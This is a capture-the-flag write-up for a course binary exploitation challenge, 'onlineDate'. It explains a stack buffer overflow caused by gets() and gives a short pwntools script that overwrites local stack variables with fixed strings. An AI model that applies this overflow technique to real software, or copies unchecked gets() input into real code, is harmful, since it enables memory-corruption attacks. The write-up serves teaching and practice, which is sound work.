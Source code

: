 # onlineDate

### 📍 Description
What about updating your profile information?

### 📄 Rules
- Do not patch this binary.
- Do not modify or delete the flag.txt file.
- You MUST solve the challenge by providing valid inputs.
- You CANNOT just jump with the debugger to any function that directly prints the flag.
- If you think you're breaking these rules with your solution, please ask the teachers.

## 🔑 Solution
We have a trivial buffer overflow vulnerability, we just need to overwrite some stack variables with the correct values.
The input length isn't checked due to the use of `gets()` for handling user input, the target buffer is 56 bytes long, its content aren't checked against anything so we can just fill it with `A`s.
The only important thing here is overwriting the variables with the correct value and in the correct order (that's easily checked by looking at the variables position in the stack).

```python
from pwn import *

payload = b'A'* 56 + b'Gerard_Pique' + b'Clara_C.' + b'TwingoOo' + b'CasioOo!'

# r = gdb.debug('./onlineDating')
r = process('./onlineDating')
r.sendlineafter(b'Please tell us how to update it (max 50 char):', payload)
r.interactive()
```

### 🚩 Flag
```plain

```
